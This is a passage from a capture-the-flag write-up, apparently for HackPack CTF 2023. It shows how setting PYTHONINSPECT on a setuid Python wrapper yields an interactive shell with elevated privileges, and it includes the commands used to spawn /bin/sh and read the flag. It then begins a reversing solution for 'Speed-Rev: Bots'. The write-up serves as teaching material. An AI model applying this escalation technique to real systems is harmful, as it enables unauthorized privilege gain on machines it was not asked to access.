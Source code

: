 ```
When a script is passed as first argument or the -c option is used, enter interactive mode after executing the script or the command, even when sys.stdin does not appear to be a terminal. The PYTHONSTARTUP file is not read.
```

In other words, the following happens: when called with this env variable set, the python interpreter, upon exit, opens a python shell. Privileges are kept as is. This means that we get a python shell with user `ezila(1001)`! We can read the flag with `open("flag.txt").read()`, or we can also get a _real_ shell:

```python
$ PYTHONINSPECT=1 ./run-ezila
running /app/ezila.py as uid=1000 (euid=1001)
How do you do.  Please tell me your problem.
> bye
bye
Goodbye.  Thank you for talking to me.
>>> import os
>>> os.setresuid(1001,1001,1001)
>>> os.system("/bin/sh")
$ id
uid=1001(ezila) gid=1000(ctfuser) groups=1000(ctfuser)
$ cat flag.txt
flag{n3v3r_7ru57_a_ch@7b07_t0_cl3@n_th3_3nv1r0nm3n7}
```

# Rev

## Speed-Rev: Bots

In this challenge we were given a remote host and we were asked to complete six levels in three minutes.

Each level we were given a base-64 encoded ELF and we were asked for a "flag".

By looking at the ELFs we can see that this "flag" is validated through the function `validate` which changes for every level. The "flag" looks to be 16 bytes long and it conains only alphanumeric characters.

Since this challenge was pretty much the same as `Speed-Rev: Humans`, this solution can also solve that challenge.

### Level 1

---

The first level is pretty simple, we can see that the function `validate` is just a simple `strncmp` with an hardcoded string which is randomly generated at each run.

![Level 1 Ghidra](/images/hackpackctf2023_level1_ghidra.png)

By examining the binary with `strings -t d` we can see that the requested string is just 17 bytes before the "%16s" string, so we can just search for that string in the binary and take the 16 bytes we need for our "flag".
